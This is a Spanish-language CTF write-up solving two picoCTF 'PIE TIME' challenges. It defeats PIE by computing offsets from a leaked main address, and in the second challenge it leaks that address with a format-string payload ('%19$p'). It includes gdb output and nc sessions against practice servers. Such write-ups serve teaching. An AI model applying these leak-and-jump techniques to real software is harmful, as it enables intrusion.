 ```yaml
---
layout: post
title: PIE TIME PicoGym
comments: true
categories: [Pwn, Writeups, PicoCTF]
---
```


En este post estaremos resolviendo un reto del [PicoGym](https://play.picoctf.org/practice/challenge/490?category=6&page=1&retired=0) y su segunda parte. Son retos sencillitos pero que sirven para entender el concepto de PIE.

<br>
![Image]({{ site.baseurl }}/images/posts/picoGym/pico_logo.png){:width="200px"}
<br>

# PIE TIME

## Reconocimiento

   > Can you try to get the flag? Beware we have PIE!

En este reto se nos da el siguiente programa:

```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Como vemos el programa nos muestra la dirección de `main` y nos permite saltar a la dirección que queramos. Este salto es bastante útil si tuviéramos la dirección de `win`.

### PIE

El problema surge al analizar el binario con *checksec*. Veremos que tiene activada la protección PIE, que hace que las direcciones se aleatoricen en base a un offset cada vez que se ejecute el binario.

Para saltarnos esta protección podemos tratar de calcular el offset desde `win` hasta `main` para poder calcular la dirección de `win` en tiempo de ejecución.

```
win = offset + main
```

## Explotación

Con *gdb* (en mi caso *gdb-peda*) podemos ver las direcciones de ambas funciones antes del PIE:

```bash
gdb-peda$ info functions 
[...]
0x00000000000012a7  win
0x000000000000133d  main
```

```
offset = 0x000000000000133d - 0x00000000000012a7 = 0x96
```

Sabiendo el offset podemos ejecutar y restar dicho offset a la dirección que nos dan:

```bash
nc rescued-float.picoctf.net 56618
Address of main: 0x62587a0ee33d
Enter the address to jump to, ex => 0x12345: 0x62587a0ee2a7 <- (0x62587a0ee33d - 0x96)
Your input: 62587a0ee2a7
You won!
picoCTF{<REDACTED>}
```

<br>

# PIE TIME 2

   > Can you try to get the flag? I'm not revealing anything anymore!!

La segunda parte es exactamente igual que la primera, pero por desgracia no nos dan el *leak* con la dirección de `main`

## Reconocimiento

Si analizamos el código veremos que la lógica ahora es algo más extensa (solo he incluido lo más relevante):

```c
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
}
```

Como podemos ver, en la llamada a `call_functions` hay una vulnerabilidad de tipo *Format String*, con esta vulnerabilidad podemos tratar de *leakear* una dirección del binario para poder calcular la dirección de `win` con el PIE.

## Explotación

Con ayuda de *gdb-peda* podemos utilizar el especificador `%<posicion>$p` para ir extrayendo valores del stack y compararlos con las direcciones de las funciones del binario. En este caso el valor 19 del stack parece ser parte de main:

```bash
Enter your name:%19$p
0x555555555441
```

```bash
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000555555555400 <+0>:	endbr64
   0x0000555555555404 <+4>:	push   rbp
   0x0000555555555405 <+5>:	mov    rbp,rsp
   0x0000555555555408 <+8>:	lea    rsi,[rip+0xfffffffffffffe9a]        # 0x5555555552a9 <segfault_handler>
   0x000055555555540f <+15>:	mov    edi,0xb
   0x0000555555555414 <+20>:	call   0x555555555170 <signal@plt>
   0x0000555555555419 <+25>:	mov    rax,QWORD PTR [rip+0x2bf0]        # 0x555555558010 <stdout@@GLIBC_2.2.5>
   0x0000555555555420 <+32>:	mov    ecx,0x0
   0x0000555555555425 <+37>:	mov    edx,0x2
   0x000055555555542a <+42>:	mov    esi,0x0
   0x000055555555542f <+47>:	mov    rdi,rax
   0x0000555555555432 <+50>:	call   0x555555555180 <setvbuf@plt>
   0x0000555555555437 <+55>:	mov    eax,0x0
   0x000055555555543c <+60>:	call   0x5555555552c7 <call_functions>
   0x0000555555555441 <+65>:	mov    eax,0x0
   0x0000555555555446 <+70>:	pop    rbp
   0x0000555555555447 <+71>:	ret

gdb-peda$ disass win
Dump of assembler code for function win:
   0x000055555555536a <+0>:	endbr64
   0x000055555555536e <+4>:	push   rbp
```

En este punto ya podemos calcular el offset desde ese punto hasta `win`:

```
0x555555555441 - 0x000055555555536a = 0xd7
```

Ya solo queda ejecutar aplicando lo anterior:

```bash
nc rescued-float.picoctf.net 49672
Enter your name:%19$p
0x64e5b1691441
 enter the address to jump to, ex => 0x12345: 0x64e5b169136a (0x64e5b1691441 - 0xd7)
You won!
picoCTF{<REDACTED>}
```

<br>